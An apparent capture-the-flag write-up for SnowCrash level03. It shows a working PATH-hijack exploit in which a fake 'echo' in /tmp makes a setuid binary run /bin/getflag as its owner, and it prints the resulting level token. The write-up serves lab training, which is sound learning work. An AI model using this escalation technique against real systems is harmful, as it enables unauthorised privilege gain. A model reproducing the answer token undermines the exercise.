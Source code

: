In our home directory we can see :

```
level03@SnowCrash:~$ ls -l level03
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ ./level03
Exploit me
```
If you look at ./level3 with strings you can see a call to echo :
```
level03@SnowCrash:~$ strings ./level03
/usr/bin/env echo Exploit me
```

We can replace the echo command with a fake version that will provide us with the getflag command. This is possible because ./level03 has the permissions of the flag03 user.
```
level03@SnowCrash:~$ echo '/bin/getflag' > /tmp/echo; chmod +x /tmp/echo; export PATH=/tmp:$PATH; ./level03
```
Finally, run the executable to get the token for level04:

```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
